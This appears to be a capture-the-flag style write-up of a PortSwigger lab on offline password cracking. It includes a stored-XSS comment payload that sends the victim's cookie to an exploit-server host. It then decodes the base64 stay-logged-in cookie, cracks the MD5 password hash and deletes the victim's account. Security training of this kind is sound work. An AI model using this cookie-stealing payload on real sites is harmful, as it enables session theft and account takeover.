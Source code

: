
# Offline password cracking

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.

- Your credentials: wiener:peter

- Victim's username: carlos

Learning path: If you're following our suggested learning path, please note that this lab requires some understanding of topics that we haven't covered yet. Don't worry if you get stuck; try coming back later once you've developed your knowledge further.

---------------------------------------------

References: 

- https://portswigger.net/web-security/authentication/other-mechanisms



![img](images/Offline%20password%20cracking/1.png)

---------------------------------------------

First I will create a comment with this payload to send the cookie to the exploit server:

```
<script>var i=new Image;i.src="https://exploit-0a500006035b831a8133a1940130000d.exploit-server.net/log?cookie="+document.cookie;</script>
```



![img](images/Offline%20password%20cracking/2.png)


We get the value from carlos' cookie:



![img](images/Offline%20password%20cracking/3.png)


Then I logged in as wiener and got the “stay-logged-in” cookie “d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw”:



![img](images/Offline%20password%20cracking/4.png)


It uses the same password structure as the previous lab, BASE64(user:MD5(password)):



![img](images/Offline%20password%20cracking/5.png)


It seems it is the MD5 hash for “onceuponatime”:



![img](images/Offline%20password%20cracking/6.png)


So we can now connect and delete the account:



![img](images/Offline%20password%20cracking/7.png)
